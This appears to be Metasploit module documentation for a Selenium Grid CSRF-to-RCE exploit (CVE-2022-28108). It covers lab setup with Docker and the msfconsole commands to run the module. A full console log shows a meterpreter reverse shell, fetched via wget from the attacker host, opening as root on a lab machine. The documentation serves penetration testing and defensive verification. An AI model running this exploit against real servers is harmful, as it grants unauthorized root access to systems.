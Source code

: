 ## Vulnerable Application

Selenium Server (Grid) before 4 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4

This module was successfully tested on:

    * selenium/standalone-chrome:3.141.59 installed with Docker on Ubuntu 24.0.4


### Installation

1. docker pull selenium/standalone-chrome:3.141.59

2. docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-chrome:3.141.59


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JCDnGOMpY        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Expected error: unknown error: Chrome failed to start: exited normally.
  (unknown error: DevToolsActivePort file doesn't exist)
  (The process started from chrome location /usr/bin/python3 is no longer running, so ChromeDriver is assuming that Chrome has crashed.)
Build info: version: '3.141.59', revision: 'e82be7d358', time: '2018-11-14T08:25:53'
System info: host: 'e270e1bda998', ip: '172.17.0.2', os.name: 'Linux', os.arch: 'amd64', os.version: '6.8.0-51-generic', java.version: '1.8.0_292'
Driver info: driver.version: unknown
remote stacktrace: #0 0x5b8e0fc708f3 <unknown>
#1 0x5b8e0f755ba8 <unknown>
#2 0x5b8e0f778e33 <unknown>
#3 0x5b8e0f7749ef <unknown>
#4 0x5b8e0f7ae995 <unknown>
#5 0x5b8e0f7a8d63 <unknown>
#6 0x5b8e0f77f144 <unknown>
#7 0x5b8e0f780135 <unknown>
#8 0x5b8e0fc9fc3e <unknown>
#9 0x5b8e0fcb56b7 <unknown>
#10 0x5b8e0fca0b95 <unknown>
#11 0x5b8e0fcb6b05 <unknown>
#12 0x5b8e0fc952ab <unknown>
#13 0x5b8e0fcd1248 <unknown>
#14 0x5b8e0fcd13c8 <unknown>
#15 0x5b8e0fcec33d <unknown>
#16 0x72fc781a7609 start_thread

[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:50038) at 2024-12-26 23:30:24 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

